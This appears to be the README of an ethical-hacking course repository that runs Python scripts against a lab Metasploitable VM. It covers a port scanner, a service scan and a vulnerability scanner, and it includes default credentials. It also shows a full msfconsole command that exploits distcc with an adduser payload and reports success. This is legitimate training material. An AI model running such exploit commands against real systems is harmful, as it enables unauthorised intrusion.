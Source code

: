 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---
#### Mind map
* <a href="EH_2023_part_1.drawio.svg">EH_2023_part_1.drawio.svg</a>
* <a href="EH_2023_part_2_DVWA.drawio.svg">EH_2023_part_2_DVWA.drawio.svg</a>

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```
---
## Security Metasploitable

```
Login:password - msfadmin:msfadmin

msfadmin@metasploitable: cd /var/www/dvwa/dvwa/includes/
msfadmin@metasploitable: sudo nano dvwaPage.inc.php

setcookie( 'security', 'medium' )
```
```
http://10.0.2.4/dvwa/security.php

Username: admin
Security Level: low
```

---

## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>
3. <a href="#vulnerability_scanner">Vulnerability Scanner</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```
   

---

1. **Vulnerability Scanner** <a name="vulnerability_scanner"></a>

    ```pycon
    cd 3_vulnerability_scanner
    ```
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/3_vulnerability_scanner]
   └─$ python3 run_scanner.py
   
   ```
   ![run_vulnerability_scanner.gif](animation_gif%2Frun_vulnerability_scanner.gif)


